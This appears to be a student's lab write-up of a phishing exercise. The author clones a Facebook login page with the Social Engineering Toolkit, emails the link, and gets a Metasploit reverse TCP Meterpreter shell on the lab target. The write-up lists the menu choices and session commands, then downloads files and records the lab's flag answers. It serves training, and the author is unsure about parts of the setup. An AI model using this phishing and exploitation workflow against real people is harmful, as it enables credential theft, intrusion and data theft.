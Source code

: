 ## Objective
In this lab, I am setting up a fake Facebook website, then sending the
link to that fake website via email to the target. The target will login
to the fake facebook which will run an exploit through metasploit to
connect to the target machine

## Skills Learned
Setting up a fake Facebook website using SET (Social Engineering Toolkit)<br>
Using the Facebook web template and Metasploit reverse TCP meterpreter shell<br>
Using Metasploit commands to list and interact with active sessions once the exploit is triggered<br>
Practiced working with a Meterpreter shell to navigate directories and download/upload files <br>
Downloading a directory and specific files, including flag files<br>
Using background to manage sessions and noting the persistence of the exploit<br>

## **Casting the Net - Setting up the fake website**

In the given machine, I was just able to type 'setoolkit' in the
terminal to launch the SET application

I selected (1) for Social-Engineering Attacks

\(2\) for Website Attack Vectors

\(2\) for Metasploit Browser Method

\(1\) to use Web Templates

I'm not sure what the next step meant, but I put in "no" for using
NAT/port forwarding

I typed my host IP address which was "175.45.176.199"

\(3\) to use the Facebook web template

\(46\) for the Metasploit browser exploit

\(2\) for Reverse TCP Meterpreter Shell

{Enter} for using the default port of 443

Waited for a bunch of messages from Metasploit starting the server w/
exploits

Waited until "Done, found x exploit modules"

![image7](https://github.com/user-attachments/assets/02c84419-4212-45cf-92f4-ae91eb8386c5)

## **Getting Attacked - Using the Target System**

I logged in to the target server

I'm not sure how, but there was already an email sent.

The hyperlink to "facebook.com" sent the browser to the fake website

I, as the target, signed in with whatever credentials I was given but I
believe literally anything would work, as long as they hit enter which
will send them to another page. This exploit page will seem to "hang" as
the exploit begins

![image12](https://github.com/user-attachments/assets/126b776f-8795-4687-818c-bae98beb9635)
![image2](https://github.com/user-attachments/assets/1afaf3d9-754b-4ff0-8f03-6b291c2a31b3)


## **Connecting to the Machine**
![image8](https://github.com/user-attachments/assets/82418c34-4a27-4c7c-9d31-fb120307d29c)

Now back the attacker's console, in the "msf auxiliary" command line

**'sessions -l'** to **list all active sessions**

**'sessions** -i **#'** to **interact with a certain machine**

in this case i do 'sessions -i 1' to interact with the first machine

![image9](https://github.com/user-attachments/assets/c29feb7c-57ef-4af9-a3af-0399fff96fb7)


## **Stealing Data - [[Working in a Meterpreter Shell]](https://github.com/rat-v/Random-Notes-for-Tools/blob/main/Metasploit%20and%20Meterpreter.md)**

**'pwd'** to find the **present working directory** to figure out where
I am

Then can use normal windows 'cd' commands to change directory

**'cd /'** to change to root directory

![image1](https://github.com/user-attachments/assets/e0348259-b391-40ee-939c-29ee9df60751)


'**ls'** to list files and folders in the directory, any name that pops
up without an extension is a folder I assume

![image6](https://github.com/user-attachments/assets/b8f77328-d687-4947-b513-6ed633c6000f)


**'cd share'** to move into the share folder

![image11](https://github.com/user-attachments/assets/3a62dac7-84ed-4fbc-872f-ceb315efb5aa)


We can see a folder called "DeathStar" which very likely has classified
imperial plans that I should investigate.

Moving into the DeathStar folder, I see 4 images of blueprints, I can
download the ENTIRE directory by using **'download \*.\*'** and then
sending it to my root folder by adding **'/root'**

So the entire command is **'download \*.\* /root'** to download the
entire directory and then outputting it into my root folder

I can also do **'/root/Blueprints'** to put these images in a dedicated
folder that was just created with the command

![image3](https://github.com/user-attachments/assets/c7b406ed-531b-4d80-9e53-e8b1f1a3f739)


![image10](https://github.com/user-attachments/assets/d4b756a6-9363-4a94-834a-209a5d3a6d45)


Each blueprint has a flag somewhere in the picture

blueprint1 = 999818

blueprint2 = 111222

blueprint3 = 777558

blueprint4 = 655913

I can also download the flag4.xml file in /share using the same download
method. Opening it reveals the flag in the first few lines of the file
(444588)

![image4](https://github.com/user-attachments/assets/3f072c03-35c3-43f5-874f-d04eb06c2d9d)


## **Closing notes**

I can find the ip address of the machine using **'ipconfig'**

**'background'** lets me put the current session in the background so I
can interact with the msf auxiliary console

Even if the target machine closes the web browser, I still have a
completely normal connected session to the machine. I can still move
through directories and download files and see changes made such as
adding or deleting files. I only lost access to the machine when they
manually stopped the "notepad.exe" process that I noticed was
responsible for the exploit in the first section.

In this lab, I noticed an additional machine in the topology called the
Windows 8.1 Attack Server. I'm not really sure how this machine played a
role in this, but I noticed it has the same 175.45.176.200 ip address as
the fake Facebook website, so perhaps it's the server hosting the fake
website? Also I never did any command involving that ip address, so
maybe it's something that was set up before.

![image5](https://github.com/user-attachments/assets/77b02be7-27cc-4350-8ed9-10e53db96ed6)
